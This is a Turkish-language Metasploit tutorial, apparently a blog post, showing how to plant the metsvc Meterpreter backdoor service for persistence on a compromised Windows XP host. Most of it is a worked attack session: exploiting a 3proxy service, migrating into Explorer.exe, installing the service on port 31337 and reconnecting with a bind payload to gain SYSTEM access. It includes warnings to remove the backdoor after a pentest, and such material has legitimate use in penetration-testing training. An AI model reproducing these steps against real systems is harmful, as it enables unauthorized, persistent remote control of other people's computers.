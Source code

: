```yaml
---
draft: false

title:  'MSF Meterpreter Backdoor'
date: '2017-06-15T13:56:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Hedef sisteme giriş yaptıktan sonra, kalıcılık sağlamanın bir yolu da\_metsvc\_servisini kullanmaktır. Bu servis sayesinde istediğiniz zaman tekrar Meterpreter oturumu açabilirsiniz.\_metsvc\_hakkında detaylı bilgiyi bağlantıyı kullanarak inceleyebilirsiniz." 
 
url:  /tr/msf-meterpreter-backdoor/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Meterpreter metsvc



Hedef sisteme giriş yaptıktan sonra, kalıcılık sağlamanın bir yolu da `metsvc` servisini kullanmaktır. Bu servis sayesinde istediğiniz zaman tekrar Meterpreter oturumu açabilirsiniz. <a href="http://www.phreedom.org/software/metsvc/">metsvc</a> hakkında detaylı bilgiyi bağlantıyı kullanarak inceleyebilirsiniz.



metsvc hakkında bilmeniz gereken önemli bir noktayı vurgulayalım. **Bu servisi yerleştirdiğiniz bilgisayarın ilgili portunu bulan herkes bu arka kapıyı kullanabilir.** Pentest işlemleri esnasında kullandıktan sonra iptal etmelisiniz yoksa sistemi, art niyetli kişilere açık duruma getirmiş olursunuz. Bu da sistem sahiplerinin hiç hoşuna gitmeyebilir.



Öncelikle sistemde, bulduğunuz bir açıklıkla ilgili modülü kullanarak meterpreter oturumu açalım.


```bash
msf exploit**(**3proxy**)** > exploit

> Started reverse handler
> Trying target Windows XP SP2 - English...
> Sending stage **(**719360 bytes**)**
> Meterpreter session 1 opened **(**192.168.1.101:4444 -> 192.168.1.104:1983**)**
```



`ps` komutuyla `Explorer.exe` programının PID numarasını bulalım ve `migrate` komutuyla bu PID numaralı programa geçiş yapalım.


```bash
meterpreter > ps

Process list
**============**

    PID   Name                 Path
    ---   ----                 ----
    132   ctfmon.exe           C:\WINDOWS\system32\ctfmon.exe
    176   svchost.exe          C:\WINDOWS\system32\svchost.exe
    440   VMwareService.exe    C:\Program Files\VMware\VMware Tools\VMwareService.exe
    632   Explorer.EXE         C:\WINDOWS\Explorer.EXE
    796   smss.exe             \SystemRoot\System32\smss.exe
    836   VMwareTray.exe       C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    844   VMwareUser.exe       C:\Program Files\VMware\VMware Tools\VMwareUser.exe
    884   csrss.exe            \??\C:\WINDOWS\system32\csrss.exe
    908   winlogon.exe         \??\C:\WINDOWS\system32\winlogon.exe
    952   services.exe         C:\WINDOWS\system32\services.exe
    964   lsass.exe            C:\WINDOWS\system32\lsass.exe
    1120  vmacthlp.exe         C:\Program Files\VMware\VMware Tools\vmacthlp.exe
    1136  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1236  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1560  alg.exe              C:\WINDOWS\System32\alg.exe
    1568  WZCSLDR2.exe         C:\Program Files\ANI\ANIWZCS2 Service\WZCSLDR2.exe
    1596  jusched.exe          C:\Program Files\Java\jre6\b**in**\jusched.exe
    1656  msmsgs.exe           C:\Program Files\Messenger\msmsgs.exe
    1748  spoolsv.exe          C:\WINDOWS\system32\spoolsv.exe
    1928  jqs.exe              C:\Program Files\Java\jre6\b**in**\jqs.exe
    2028  snmp.exe             C:\WINDOWS\System32\snmp.exe
    2840  3proxy.exe           C:\3proxy\b**in**\3proxy.exe
    3000  mmc.exe              C:\WINDOWS\system32\mmc.exe

meterpreter > migrate 632
> Migrating to 632...
> Migration completed successfully.
```



`metsvc` modülünü kullanmadan önce yardımı görüntüleyelim ve bize hangi olanakları sağladığını görelim.


```bash
meterpreter > run metsvc -h
>
OPTIONS:

    -A        Automatically start a matching multi/handler to connect to the service
    -h        This help menu
    -r        Uninstall an existing Meterpreter service **(**files must be deleted manually**)**

meterpreter >
```



`metsvc`, normalde bize geri bağlantı da sağlayan bir programdır ancak biz zaten Meterpreter oturumu açtığımız için geri bağlantıya şimdilik ihtiyacımız yok. Sadece programı çalıştıralım.


```bash
meterpreter > run metsvc
> Creating a meterpreter service on port 31337
> Creating a temporary installation directory C:\DOCUME~1\victim\LOCALS~1\Temp\JplTpVnksh...
>  **>>** Uploading metsrv.dll...
>  **>>** Uploading metsvc-server.exe...
>  **>>** Uploading metsvc.exe...
> Starting the service...
>      ***** Installing service metsvc
 ***** Starting service
Service metsvc successfully installed.

meterpreter >
```



`metsvc` başladı ve artık bağlanmak için bekliyor. Şimdi bu servisle nasıl haberleşeceğimizi görelim.



Hedef sistemde dinleme durumundaki `metsvc` ile haberleşmek için `windows/metsvc_bind_tcp` payload modülünü kullanacağız. Modülü, aşağıdaki örnekte olduğu gibi aktif hale getirelim ve gerekli PORT ayarlarını yapalım.


```bash
msf > use exploit/multi/handler
msf exploit**(**handler**)** > set PAYLOAD windows/metsvc_bind_tcp
PAYLOAD **=>** windows/metsvc_bind_tcp
msf exploit**(**handler**)** > set LPORT 31337
LPORT **=>** 31337
msf exploit**(**handler**)** > set RHOST 192.168.1.104
RHOST **=>** 192.168.1.104
msf exploit**(**handler**)** > show options

Module options:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options **(**windows/metsvc_bind_tcp**)**:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LPORT     31337            yes       The local port
   RHOST     192.168.1.104    no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit**(**handler**)** > exploit

> Starting the payload handler...
> Started bind handler
> Meterpreter session 2 opened **(**192.168.1.101:60840 -> 192.168.1.104:31337**)**
```



Gördüğünüz gibi `session 2` otomatik olarak açıldı. Şimdi, `metsvc` servisinin hedef bilgisayarda hangi PID numarasıyla çalıştığına bakalım.


```bash
meterpreter > ps

Process list
**============**

   PID   Name               Path                                                  
   ---   ----               ----                                                  
   140   smss.exe           \SystemRoot\System32\smss.exe                         
   168   csrss.exe          \??\C:\WINNT\system32\csrss.exe                       
   188   winlogon.exe       \??\C:WINNT\system32\winlogon.exe                    
   216   services.exe       C:\WINNT\system32\services.exe                        
   228   lsass.exe          C:\WINNT\system32\lsass.exe                           
   380   svchost.exe        C:\WINNT\system32\svchost.exe                         
   408   spoolsv.exe        C:\WINNT\system32\spoolsv.exe                         
   444   svchost.exe        C:\WINNT\System32\svchost.exe                         
   480   regsvc.exe         C:\WINNT\system32\regsvc.exe                          
   500   MSTask.exe         C:\WINNT\system32\MSTask.exe                          
   528   VMwareService.exe  C:\Program Files\VMware\VMware Tools\VMwareService.exe
   564   metsvc.exe         c:\WINNT\my\metsvc.exe                                
   588   WinMgmt.exe        C:\WINNT\System32\WBEM\WinMgmt.exe                    
   676   cmd.exe            C:\WINNT\System32\cmd.exe                             
   724   cmd.exe            C:\WINNT\System32\cmd.exe                             
   764   mmc.exe            C:\WINNT\system32\mmc.exe                             
   816   metsvc-server.exe  c:\WINNT\my\metsvc-server.exe                         
   888   VMwareTray.exe     C:\Program Files\VMware\VMware Tools\VMwareTray.exe   
   896   VMwareUser.exe     C:\Program Files\VMware\VMware Tools\VMwareUser.exe   
   940   firefox.exe        C:\Program Files\Mozilla Firefox\firefox.exe          
   972   TPAutoConnSvc.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnSvc.exe
   1000  Explorer.exe       C:\WINNT\Explorer.exe                                 
   1088  TPAutoConnect.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnect.exe

meterpreter > pwd
C:\WINDOWS\system32
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```



Çıktıdan görülebileceği gibi, `metsvc` programı, 564 PID numarasıyla çalışmaktadır. Artık istediğiniz zaman, hedef bilgisayarda dinleme yapan programa, `windows/metsvc_bind_tcp` payload modülünü kullanarak bağlanabiliriz.



Tekrar hatırlatmak gerekirse, güvenlik testi işlemleriniz bittiğinde `metsvc` programını sistemden silmelisiniz.
